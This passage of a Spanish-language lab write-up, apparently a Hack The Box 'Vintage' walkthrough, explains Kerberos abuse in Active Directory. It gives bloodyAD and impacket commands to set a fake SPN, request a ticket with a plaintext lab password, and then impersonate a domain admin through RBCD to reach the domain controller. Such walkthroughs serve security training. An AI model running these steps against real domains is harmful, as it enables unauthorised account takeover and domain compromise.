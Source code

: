 <figure><img src="../../.gitbook/assets/2755_vmware_gpGsZMuLhb (1).png" alt=""><figcaption></figcaption></figure>

Con el TGT del usuario (P.Rosa@vintage.htb) procederemos a asignarle al usuario "svc\_sql@vintage.htb) al cual tenemos privilegios de **GenericAll** sobre él un SPN (ServicePrincipalName) ficticio.

Una vez le asignemos un SPN ficticio, procederemos a solicitar el TGT del usuario (svc\_sql@vintage.htb).

{% code overflow="wrap" %}
```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName -v "cifs/gzzcoo"

impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb

export KRB5CCNAME=svc_sql.ccache

klist -e
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2756_vmware_n8moCcEObQ.png" alt=""><figcaption></figcaption></figure>

Obtenido el TGT del uisuario (svc\_sql@vintage.htb), teniendo el SPN ficticio asignado a este usuario, procederemos a realizar el **RBCD Attack** mediante la herramienta de **impacket-getST** para impersonar al usuario (l.bianchi\_admin@vintage.htb).

Una vez tengamos el TGT del usuario impersonado, procederemos a expotarlo en la variable _KRB5CCNAME_ y de acceder al Domain Controller mediante **wmiexec.py** a través del TGT solicitado.

Verificamos que ganamos acceso al Domain Controller siendo el Domain Admin (l.bianchi\_adm@vintage.htb) y podemos verificar la flag de **root.txt**.
